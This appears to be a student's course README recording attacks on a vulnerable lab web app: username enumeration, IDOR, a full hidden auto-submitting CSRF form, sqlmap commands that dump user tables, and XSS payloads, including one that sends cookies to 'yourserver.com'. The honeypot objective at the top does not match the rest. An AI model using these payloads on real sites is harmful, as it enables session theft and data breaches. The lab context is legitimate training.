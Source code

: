 # Project 8 - Pentesting Live Targets

Time spent: **10** hours spent in total

> Objective: Setup a honeypot and intercept some attempted attacks in the wild.

## Honeypots Deployed

### Dionaea Sensor
* Dionaea is "meant to be a nepenthes successor, embedding python as scripting language, using libemu to detect shellcodes, supporting ipv6 and tls."

### Conpot Sensor
* Conpot is a "low interactive server side Industrial Control Systems honeypot designed to be easy to deploy, modify and extend."

### Snort Sensor
* Snort is an "open source intrusion prevention system capable of real-time traffic analysis and packet logging."

### Suricata Sensor
* Suricata is "capable of real time intrusion detection (IDS), inline intrusion prevention (IPS), network security monitoring (NSM) and offline pcap processing."

### Kippo Sensor
* Kippo is a medium-interaction SSH honeypot written in Python. Kippo is used to log brute force attacks and the entire shell interaction performed by an attacker.






## Green

Vulnerability #1: Username Enumeration
* When a NON-existing username is entered, the "Log in was unsuccessful." message is unbolded.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/userenum.gif">

Vulnerability #2: Cross-Site Scripting (XSS)
* Inject a script through the feedback form and wait for a logged-in user to check it

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/xss.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)
* By changing the value of "id" in the URL, a visitor is able to view pages/information that was meant to be private

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/idor.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)
* Forged a form using the code below. Then allowed a logged-in user to visit the page, resulting in a CSRF POST request attack

```
<html>
  <head>
  </head>
  <body>
  	<h1><center>Totally Normal Site</center></h1>
    	<form name="csrfForm" action="https://35.184.21.59/red/public/staff/salespeople/edit.php?id=1" 
	method="post" target="hide">

		<input type="hidden" name="first_name" value="Site Hacked">
		<input type="hidden" name="last_name" value="By Brian">
	</form>
	<iframe name="hide" style="display: none;"></iframe>
	<script>
 		document.csrfForm.submit();
	</script>
  </body>
</html>
```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/csrf.gif">

## Bonus Objectives

Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.
* Using the tool sqlmap, additional information is extracted using the following prompts: 
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --dbs```
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --tables -D globitek_blue```
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --dump -T salespeople,users -D globitek_blue```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus1.gif">

Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.
* Inject the script ```<script>document.location = "https://google.com";</script>``` into feedback form. When a logged in user checks the feedback, the script will redirect them to https://google.com

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus2a.gif">

* We can also steal cookie data using ```<script>document.write('<img src="https://yourserver.com/collect.gif?cookie=' + document.cookie + '" />')</script>``` which will cause the logged in user to send their cookie to your target website
* It is also possible to set up a CSRF page to set someone's cookie data and using XSS redirect that user to the page

## Notes
